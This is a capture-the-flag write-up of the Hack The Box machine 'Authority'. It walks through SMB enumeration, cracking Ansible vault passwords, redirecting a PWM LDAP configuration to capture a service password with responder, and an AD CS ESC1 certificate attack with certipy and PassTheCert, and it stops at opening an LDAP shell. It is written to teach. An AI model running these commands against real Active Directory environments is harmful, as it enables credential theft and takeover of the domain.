## About Authority

**Name:** Authority

**Machine:** https://app.hackthebox.com/machines/Authority

**Difficulty:** Medium

**OS:** Windows

**Target IP:** 10.129.229.56

---
## Recon

I'll start with an nmap scan to discover open ports and services:

```
sudo nmap -sC -sV -oA nmap/Authority -v 10.129.229.56
```

The combination of ports confirms this is a domain controller, and there are also two web servers running, one on port 80 and another on port 8443.

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-21 16:51:18Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after:  2024-08-09T23:13:21
| MD5:     d494 7710 6f6b 8100 e4e1 9cf2 aa40 dae1
| SHA-1:   dded b994 b80c 83a9 db0b e7d3 5853 ff8e 54c6 2d0b
|_SHA-256: e1d2 e894 2960 a961 bbf7 b4e4 c110 c6d7 e5a1 7a29 8987 85dc 3553 fb90 458a 5cb7
|_ssl-date: 2026-08-21T16:52:16+00:00; +3h59m59s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-21T16:52:14+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after:  2024-08-09T23:13:21
| MD5:     d494 7710 6f6b 8100 e4e1 9cf2 aa40 dae1
| SHA-1:   dded b994 b80c 83a9 db0b e7d3 5853 ff8e 54c6 2d0b
|_SHA-256: e1d2 e894 2960 a961 bbf7 b4e4 c110 c6d7 e5a1 7a29 8987 85dc 3553 fb90 458a 5cb7
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after:  2024-08-09T23:13:21
| MD5:     d494 7710 6f6b 8100 e4e1 9cf2 aa40 dae1
| SHA-1:   dded b994 b80c 83a9 db0b e7d3 5853 ff8e 54c6 2d0b
|_SHA-256: e1d2 e894 2960 a961 bbf7 b4e4 c110 c6d7 e5a1 7a29 8987 85dc 3553 fb90 458a 5cb7
|_ssl-date: 2026-08-21T16:52:16+00:00; +3h59m59s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Issuer: commonName=htb-AUTHORITY-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-08-09T23:03:21
| Not valid after:  2024-08-09T23:13:21
| MD5:     d494 7710 6f6b 8100 e4e1 9cf2 aa40 dae1
| SHA-1:   dded b994 b80c 83a9 db0b e7d3 5853 ff8e 54c6 2d0b
|_SHA-256: e1d2 e894 2960 a961 bbf7 b4e4 c110 c6d7 e5a1 7a29 8987 85dc 3553 fb90 458a 5cb7
|_ssl-date: 2026-08-21T16:52:14+00:00; +4h00m00s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8443/tcp open  ssl/http      Apache Tomcat (language: en)
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
|_http-favicon: Unknown favicon MD5: F588322AAF157D82BB030AF1EFFD8CF9
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=172.16.2.118
| Issuer: commonName=172.16.2.118
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-08-19T16:46:27
| Not valid after:  2028-08-21T04:24:51
| MD5:     c038 5cc1 53d9 c165 3ffe 06d8 701a 3fb1
| SHA-1:   3cba 79ca 5c43 c857 073f 56f4 fd47 3e59 5eb3 d10f
|_SHA-256: 3d07 f29c b379 0826 c342 067d d3e7 4390 ded7 0cb1 494d 7f17 8ea5 53c4 79bf 6dbe
| tls-alpn: 
|_  h2
|_ssl-date: TLS randomness does not represent time
Service Info: Host: AUTHORITY; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: 3h59m59s, deviation: 0s, median: 3h59m59s
| smb2-time: 
|   date: 2026-08-21T16:52:05
|_  start_date: N/A
```

There's also a clock skew of about four hours between my host and the target, which I'll need to sync once I get to any Kerberos-related attacks later on.

I'll add the domain `authority.htb` and the hostname `authority` to my `/etc/hosts` file.



## SMB Enumeration

Starting with SMB, guest authentication turns out to be enabled on the target, and listing shares with it shows two non-default shares.



I don't have access to `Department Shares`, but I do have read access on `Development`, so I'll connect and take a look:

```
smbclient -U guest \\\\10.129.229.56\\Development
```



Looking through it, I can see `Ansible` is being used here, which is an open-source IT automation tool used for software provisioning, configuration management, and application deployment. There's a decent chance we can pull some sort of credentials out of it that were used somewhere in the automation setup.

There's also an `ADCS` folder inside the share, which strongly hints that some kind of AD CS attack is going to be part of this box later on. To dig into it properly, I'll download the whole share:

```
recurse ON
prompt OFF
mget *
```

Looking at `PWM/defaults/main.yml`, there are some values that look like encrypted credentials. These are protected using `ansible-vault`, Ansible's built-in encryption for sensitive data.



Since these blobs can be cracked with `ansible2john`, I'll copy each encrypted value starting with `$ANSIBLE_VAULT` into its own separate file.



Then I'll feed them to `john`, which cracks the vault password to `!@#$%^&*`:

```
ansible2john pwd_admin_login.vault pwd_admin_password.vault ldap_admin_password.vault | tee vault.hashes
john --wordlist=/usr/share/wordlists/rockyou.txt vault.hashes
```



All three files turn out to share the same password. With that, I'll decrypt each vault file:

```
sudo apt install ansible-core
cat pwd_admin_login.vault | ansible-vault decrypt
cat pwd_admin_password.vault | ansible-vault decrypt
cat ldap_admin_password.vault | ansible-vault decrypt
```



The first value looks like a username, and the other two look like passwords. I don't have an immediate use for them yet, so I'll just hold onto them for now.

## Web Enumeration

Visiting port 80 shows a default IIS page, and directory brute forcing against it doesn't turn up anything.



Next, I visit port 8443, and it turns out to be a `PWM` instance, an open-source password self-service application for LDAP directories.



I try the credentials `svc_pwm:pWm_@dm!N_!23` recovered earlier, but that just returns an error.



Next, I try the "Configuration Manager" option on the main page.



This shows a history of previous authentication attempts and asks for a password. I try the same password, `pWm_@dm!N_!23`, and this time it works.



From here, I can see another user, `svc_ldap`, whose account is trying to connect to `ldaps://authority.authority.htb:636` but keeps failing.



There's also a "Download Configuration" and "Import Configuration" option, which looks promising, since I can download the current configuration, edit it, and import it back. If I redirect where the LDAP server points to, the target account should try to authenticate to my machine instead, and I'll be able to catch its password.

## Foothold

Downloading and examining the configuration file, there's a password hash at the top using the `bcrypt` algorithm. Hashcat and John would take far too long against that, so I'll set it aside for now and keep looking.



Scrolling down a little further, there's a configuration block for the LDAPS server that `svc_ldap` was trying, and failing, to connect to.



I'll edit this line, point it at my own IP, then save and exit.



Now I'll start `responder` to capture whatever connection comes in:

```
sudo responder -I tun0 -v
```

Then I import this modified configuration back into the application, which triggers a restart.



Almost immediately, `responder` catches the password `lDaP_1n_th3_cle4r!` coming back in plaintext.



`Netexec` confirms these credentials work over WinRM.



I get a shell as `svc_ldap` and read the user flag:

```
evil-winrm -i 10.129.229.56 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
```



## Privilege Escalation

There don't appear to be any other users on this box, which means I need to escalate straight to `administrator`.



I'll check for vulnerable certificate templates next:

```
certipy-ad find -dc-ip 10.129.229.56 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -vulnerable -stdout
```



This shows the `CorpVPN` template is vulnerable to `ESC1`. Before this can be exploited, though, I need access to a domain computer account, which I don't currently have. If Active Directory is left on default settings, though, a regular domain user can create one of their own.

I'll check the `MachineAccountQuota` attribute on the domain to confirm this, since it's set to 10 by default, meaning standard users are allowed to create up to that many computer accounts:

```
nxc ldap authority.authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M maq
```



That checks out, so I'll add a new computer account with a name and password of my choosing:

```
impacket-addcomputer -dc-ip 10.129.229.56 -computer-pass 'pass123' -computer-name 'my_computer' 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!'
```



With that account in hand, I can use it to request a certificate from the CA, abusing the `ESC1` misconfiguration on `CorpVPN`:

```
certipy-ad req -dc-ip 10.129.229.56 -dns authority.authority.htb -u 'my_computer$' -p 'pass123' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb
```



Now I'll try authenticating to the domain as `administrator`, using the generated `.pfx` file:

```
certipy-ad auth -pfx administrator_authority.pfx -dc-ip 10.129.229.56
```



This fails. The error means the KDC isn't set up to support PKINIT, so Kerberos-based certificate authentication won't work here directly. `PassTheCert` gets around this by authenticating over LDAP(S) instead, using the certificate directly rather than going through Kerberos.

To run a `PassTheCert` attack, I first need to split the certificate and its private key into separate files:

```
certipy-ad cert -pfx administrator_authority.pfx -nokey -out administrator.crt
certipy-ad cert -pfx administrator_authority.pfx -nocert -out administrator.key
```



With those in hand, I'll use [PassTheCert](https://github.com/AlmondOffSec/PassTheCert/blob/main/Python/passthecert.py) to open an LDAP shell, where I can run a limited set of commands:

```
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.129.229.56
```

